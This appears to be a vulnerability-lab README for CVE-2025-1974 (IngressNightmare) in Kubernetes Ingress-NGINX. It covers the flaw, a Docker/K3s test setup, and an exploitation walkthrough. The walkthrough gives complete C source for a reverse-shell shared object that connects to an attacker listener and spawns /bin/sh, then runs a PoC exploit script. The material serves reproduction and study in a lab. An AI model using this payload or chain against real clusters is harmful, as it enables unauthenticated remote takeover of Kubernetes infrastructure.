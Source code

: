 # IngressNightmare: Kubernetes Ingress Unauthenticated Remote Code Execution Vulnerability (CVE-2025-1974)

The **IngressNightmare** vulnerability stems from a critical flaw in the **Ingress-NGINX Admission Controller**—a core Kubernetes security mechanism responsible for validating incoming Ingress resources before they are accepted by the cluster. This controller is **exposed over the network without requiring authentication**, allowing attackers to craft malicious `AdmissionReview` requests and inject unauthorized configurations into Ingress resources.

**Note**: Achieving full Remote Code Execution (RCE) requires chaining CVE-2025-1974 with one of several other vulnerabilities. Below are some known exploit chains:

CVE-2025-1974 + CVE-2025-24514  RCE via `auth-url` annotation injection
CVE-2025-1974 + CVE-2025-1097   RCE via `auth-tls-match-cn` annotation
CVE-2025-1974 + CVE-2025-1098   RCE via image UID abuse

## Vulnerability Mechanics

An attacker can forge an `AdmissionReview` request to inject arbitrary NGINX directives into the Ingress resource. These directives are validated using the `nginx -t` command. [^1]Through careful manipulation, an attacker can inject an `ssl_engine` directive, which forces NGINX to load a dynamic shared object (DSO)—leading to arbitrary code execution.

More technical breakdowns can be found in the following resources:

- [IngressNightmare: CVE-2025-1974 - Critical Unauthenticated RCE](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)[^2]
- [Kubernetes Blog: CVE-2025-1974 Overview](https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/)[^3]

## Environment Setup

To simulate the vulnerability, a K3s-based Kubernetes environment is used for simplicity.

```bash
docker compose up -d
```

After the environment starts, execute the initialization script inside the k3s container:

```bash
$ docker ps -a
CONTAINER ID   IMAGE                 COMMAND                  CREATED         STATUS                      PORTS                                                                                          NAMES
8109c0c867d3   ingress-nginx:1.9.5   "/bin/k3s server"        8 minutes ago   Up 8 minutes                0.0.0.0:32043->32043/tcp, :::32043->32043/tcp, 0.0.0.0:32080->32080/tcp, :::32080->32080/tcp   cve-2025-1974-k3s-1

$ docker exec -it cve-2025-1974-k3s-1 sh ./exploit/init.sh
[INFO] Starting K3s server...
[INFO] Waiting for Kubernetes API to be ready...
nohup: appending output to 'nohup.out'
[INFO] Waiting for ingress-nginx controller...
deployment.apps/ingress-nginx-controller condition met
NAME                                        READY   STATUS      RESTARTS   AGE
ingress-nginx-admission-create-7bjgc        0/1     Completed   0          9m30s
ingress-nginx-admission-patch-8tlbg         0/1     Completed   1          9m30s
ingress-nginx-controller-587d8f88fc-w429f   1/1     Running     0          9m30s
```

The init.sh script will complete the following tasks:

- ait for the Kubernetes API to be ready
- ait for the ingress-nginx controller to start

After the script has finished running, you will see that the status of `ingress-nginx-controller` is `Running`, and you can directly start vulnerability verification or testing.

## Exploitation

We first compile a shared object (`.so`) payload matching the container’s architecture. Below is a sample source code for a reverse shell:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip = "xxxx";
    uint32_t server_port = 7788;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    system("touch /tmp/hacked");
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

Replace `server_ip` with your actual reverse shell listener. You can compile the binary using the environment provided by [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main).[^4]

Once compiled, place the resulting `shell.so` into the `./exploit` directory of the container.

Inside `exploit-pod`, navigate to the exploit directory and launch the exploit script. The script is sourced from the [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main) [^5]GitHub repository:

```bash
cd /exploit
python3 exploit.py
```

You should observe the creation of the `/tmp/hacked` file inside the ingress-nginx container, confirming successful exploitation.

![](1.jpg)

## References

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
